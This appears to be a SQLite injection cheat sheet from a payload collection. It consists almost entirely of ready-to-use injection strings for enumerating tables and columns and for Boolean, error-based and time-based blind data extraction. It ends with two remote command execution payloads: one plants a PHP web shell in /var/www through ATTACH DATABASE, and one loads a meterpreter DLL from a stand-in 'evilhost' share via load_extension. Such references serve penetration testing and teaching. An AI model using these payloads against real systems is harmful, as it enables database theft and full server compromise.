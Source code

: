 # SQLite Injection

## Summary

* [SQLite comments](#sqlite-comments)
* [SQLite version](#sqlite-version)
* [String based - Extract database structure](#string-based---extract-database-structure)
* [Integer/String based - Extract table name](#integerstring-based---extract-table-name)
* [Integer/String based - Extract column name](#integerstring-based---extract-column-name)
* [Boolean - Count number of tables](#boolean---count-number-of-tables)
* [Boolean - Enumerating table name](#boolean---enumerating-table-name)
* [Boolean - Extract info](#boolean---extract-info)
* [Boolean - Error based](#boolean---error-based)
* [Time based](#time-based)
* [Remote Command Execution using SQLite command - Attach Database](#remote-command-execution-using-sqlite-command---attach-database)
* [Remote Command Execution using SQLite command - Load_extension](#remote-command-execution-using-sqlite-command---load_extension)
* [References](#references)
## SQLite comments

\`\`\`sql
--
/**/
\`\`\`

## SQLite version

\`\`\`sql
select sqlite_version();
\`\`\`

## String based - Extract database structure

\`\`\`sql
SELECT sql FROM sqlite_schema
\`\`\`
if sqlite_version > 3.33.0 
\`\`\`sql
SELECT sql FROM sqlite_master
\`\`\`
## Integer/String based - Extract table name

\`\`\`sql
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
\`\`\`

## Integer/String based - Extract column name

\`\`\`sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
\`\`\`

For a clean output

\`\`\`sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
\`\`\`

Cleaner output

\`\`\`sql
SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');
\`\`\`

## Boolean - Count number of tables

\`\`\`sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
\`\`\`

## Boolean - Enumerating table name

\`\`\`sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
\`\`\`

## Boolean - Extract info

\`\`\`sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
\`\`\`

## Boolean - Extract info (order by)

\`\`\`sql
CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('some_char') THEN <order_element_1> ELSE <order_element_2> END
\`\`\`

## Boolean - Error based

\`\`\`sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
\`\`\`

## Time based

\`\`\`sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
\`\`\`


## Remote Command Execution using SQLite command - Attach Database

\`\`\`sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
\`\`\`

## Remote Command Execution using SQLite command - Load_extension

\`\`\`sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
\`\`\`

Note: By default this component is disabled

## References

[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
[SQLite Error Based Injection for Enumeration](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration/)
